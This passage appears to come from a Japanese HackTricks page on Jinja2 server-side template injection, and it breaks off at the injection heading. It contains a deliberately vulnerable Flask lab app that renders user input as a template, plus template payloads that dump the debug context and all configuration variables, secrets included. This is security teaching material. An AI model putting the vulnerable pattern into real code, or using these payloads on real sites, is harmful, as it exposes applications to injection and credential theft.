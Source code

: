 # Jinja2 SSTI

<details><summary><strong>AWSハッキングをゼロからヒーローまで学ぶ</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>！</strong></summary></details>

## **ラボ**
```python
from flask import Flask, request, render_template_string

app = Flask(__name__)

@app.route("/")
def home():
if request.args.get('c'):
return render_template_string(request.args.get('c'))
else:
return "Hello, send someting inside the param 'c'!"

if __name__ == "__main__":
app.run()
```
## **その他**

### **デバッグステートメント**

デバッグ拡張機能が有効になっている場合、現在のコンテキストや利用可能なフィルターとテストをダンプするための `debug` タグが利用可能になります。これは、デバッガーを設定せずにテンプレートで使用できるものが何かを確認するのに役立ちます。
```python
<pre>

{% raw %}
{% debug %}
{% endraw %}





</pre>
```
### **すべての設定変数をダンプする**
```python
{{ config }} #In these object you can find all the configured env variables


{% raw %}
{% for key, value in config.items() %}
<dt>{{ key|e }}</dt>
<dd>{{ value|e }}</dd>
{% endfor %}
{% endraw %}




```
## **Jinjaインジェクション**
